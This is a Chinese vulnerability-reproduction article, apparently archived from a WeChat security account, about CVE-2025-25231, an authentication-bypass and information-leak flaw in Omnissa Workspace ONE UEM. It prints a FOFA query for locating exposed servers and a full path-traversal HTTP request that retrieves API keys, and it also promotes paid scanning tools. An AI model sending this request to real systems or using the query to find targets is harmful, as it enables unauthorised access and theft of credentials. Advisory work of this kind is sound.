




# Omnissa Workspace ONE UEM存在敏感信息泄漏漏洞（CVE-2025-25231） 附POC

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 受影响版本字段为产品描述
- 正文CVE/CNNVD/CNVD空白
- 原始HTTP请求合为一行无法直接复用
- 补认证和配置前提及响应证据
- 官方KB6001021已给但未抽取修复版本
- 移除付费POC推广

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

2026-3-21更新
                    2026-3-21更新  南风漏洞复现文库   2026-03-21 15:53  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Omnissa Workspace ONE UEM简介  
  
微信公众号搜索：南风漏洞复现文库  
  
该文章 南风漏洞复现文库 公众号首发  
  
本人只有 南风漏洞复现文库 和 南风网络安全  
 这两个公众号，其他公众号有意冒充，请注意甄别，避免上当受骗。  
  
Omnissa Workspace ONE UEM 是一款集成的平台  
## 2.漏洞描述  
  
Omnissa Workspace ONE UEM 是一款集成的平台，通过单一控制台实现所有操作系统（包括桌面、移动、Rugged 设备和IoT）和所有用例的设备、应用程序、安全和身份进行管理。2025年9月，互联网上披露 CVE-2025-25231 Omnissa Workspace ONE UEM 敏感信息泄漏漏洞。恶意攻击者可构造恶意请求绕过相关身份认证，获取敏感信息，调用相关接口。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
Omnissa Workspace ONE UEM 是一款集成的平台  
  
  
  
Omnissa Workspace ONE UEM存在敏感信息泄漏漏洞（CVE-2025-25231）  
## 4.fofa查询语句  
  
banner="/airwatch/default.aspx"|| header="/airwatch/default.aspx"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/DevicesGateway/apps/system-app-metadata/1?packageId=../../../../API/system/groups/apikeys%3fogname=Global  
  
漏洞数据包：  
```http
GET /DevicesGateway/apps/system-app-metadata/1?packageId=../../../../API/system/groups/apikeys%3fogname=Global HTTP/1.1Host: xx.xx.xx.xxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*Connection: Keep-Alive
```  
  
  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
  
  
2: 免登录，免费fofa查询。  
  
  
3: 更新其他实用网络安全工具项目。  
  
  
4: 免费指纹识别，持续更新指纹库。  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
## 7.整改意见  
  
官方已发布安全更新，建议根据 https://kb.omnissa.com/s/article/6001021 升级之最新版本。  
## 8.往期回顾  
  
  
   
  
  
[快普M6 GetPositionOfStaff接口存在sql注入漏洞 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247490171&idx=1&sn=2e8bae11cb7299f1ff9cd85cc8347607&scene=21#wechat_redirect)  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
